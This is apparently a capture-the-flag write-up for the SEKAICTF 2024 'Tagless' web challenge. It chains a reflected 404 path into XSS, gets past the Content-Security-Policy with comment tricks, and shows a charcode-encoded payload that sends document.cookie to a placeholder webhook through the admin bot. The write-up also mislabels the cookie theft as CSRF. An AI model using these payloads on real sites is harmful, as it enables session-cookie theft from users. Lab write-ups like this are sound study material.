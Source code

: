 ```yaml
---
title: SEKAICTF 2024 Web Tagless

categories: [Pentest, XSS, Web, CTF, CSRF]

tags: [Pentest, CTF, Web, CSRF, Cookie, XSS]

image: /assets/img/uploads/sekai.png

---
```

## TLDR : 404 -> XSS -> Bypass CSP -> CSRF

## index.html
```html
<script src="/static/app.js">
```
mainpage of the website , nothing special other than this line at the bottom

## app.js
```js
function sanitizeInput(str) {
    str = str.replace(/<.*>/igm, '').replace(/<\.*>/igm, '').replace(/<.*>.*<\/.*>/igm, ''); 
    return str;
}
```
looks like XSS payload is sanitized 

## app.py

```js
@app.after_request
def add_security_headers(resp):
    resp.headers['Content-Security-Policy'] = "script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;"
    return resp
```
looks like CSP is enforced in the header

```js
@app.route("/report", methods=["POST"])
def report():
    bot = Bot()
    url = request.form.get('url')
    if url:
        try:
            parsed_url = urlparse(url)
        except Exception:
            return {"error": "Invalid URL."}, 400
        if parsed_url.scheme not in ["http", "https"]:
            return {"error": "Invalid scheme."}, 400
        if parsed_url.hostname not in ["127.0.0.1", "localhost"]:
            return {"error": "Invalid host."}, 401
        
        bot.visit(url)
```
By accessing `/report` , using the parameter `url` and sending a `POST` request , the bot will be called to visit the `url`

```python
@app.errorhandler(404)
def page_not_found(error):
    path = request.path
    return f"{path} not found"
```
looking at `app.py` and notice that error handling page does not have validation for the `invalid path` 

Example : 
```bash
curl https://tagless.chals.sekai.team/notexist
/notexist not found 
```

## bot.js
```js
   def visit(self, url):
        self.driver.get("http://127.0.0.1:5000/")
        
        self.driver.add_cookie({
            "name": "flag", 
            "value": "SEKAI{dummy}", 
            "httponly": False  
        }) 
```
Here is where the flag is stored , inside a cookie and `httponly` is `False` which suggests that we can do `CSRF` since `httponly` normally set to `true` to prevent execuring js against the cookie

## What we have so far
- Injection point at -> 404
- post request contain manipulatable `url` that the bot will visit
## Issue
- CSP blocked js access

## CSP Bypass
```python
script-src 'self'; style-src 'self' https://fonts.googleapis.com https://unpkg.com 'unsafe-inline'; font-src https://fonts.gstatic.com;
```
**script-src :** limit js only can access from root domain directory  

**style-src :** this limit css only can load from google css

**unsafe-inline:** This allows the use of inline resources, such as inline `<script>` elements, javascript: URLs, inline event handlers, and inline `<style>` elements. 

**font-src :** font only can load from google

Reference : [github](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques)

Example : 
```js
<script src=/script.js>
```

Online tool to check CSP
```
1. https://csp-evaluator.withgoogle.com/
2. https://cspvalidator.org/
```

![image](https://github.com/user-attachments/assets/c20185ec-1ea1-4404-9999-207bc54879b4)



## Crafted Payload Attempt 1

```js
<script src="/alert(document.domain)"></script>
```
technically this one should work since `/` is within domain directory

![[Pasted image 20240827035604.png]]
but we get this `Uncaught SyntaxError: unterminated regular expression literal` message

## Another Issue
```python
return f"{path} not found"
```
404 handler will return our input in `path` like this :

```js
/alert(1) not found
```
The `/` and `not found` makes our js invalid

## Crafted Payload Attempt 2
```js
<script src="/**/alert(document.domain)//"></script>
```
- Adding `/**/` in the front will comment out the `/`  
- Adding `//` at the end will comment the rest of the code effectively neglecting `not found`

Heres how the rendered payload will look like
```
//**/alert(document.domain)// not found
```
and with this we have a self reflected XSS

## CSRF Payload 
```js
<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>
```

## Final payload to send to admin

Before Encoding
```html
http://127.0.0.1:5000/<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>
```

Js compressor
https://jscompress.com/

Script to encode to ASCII
```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('<script src="/**/fetch(`https://webhook-link/?c=${document.cookie}`)//"></script>')
console.log(encoded)

// Note : this script intended to be run from browser console tool
```
paste the compressed code into the `encode_to_javascript('compressed-code-here')`

```html
http://127.0.0.1:5000/<script src="/**/eval(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,34,47,42,42,47,102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,45,108,105,110,107,47,63,99,61,36,123,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,96,41,47,47,34,62,60,47,115,99,114,105,112,116,62))>
```
Send this to the admin bot page that ask for url

Sending it using `POST` 
```bash
curl -X POST https://tagless.chals.sekai.team/ -d 'http://127.0.0.1:5000/<script src="/**/eval(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,34,47,42,42,47,102,101,116,99,104,40,96,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,45,108,105,110,107,47,63,99,61,36,123,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,96,41,47,47,34,62,60,47,115,99,114,105,112,116,62))>'
```

Wait at webhook for a while and we get cookie flag response
```
SEKAI{w4rmUpwItHoUtTags}
```
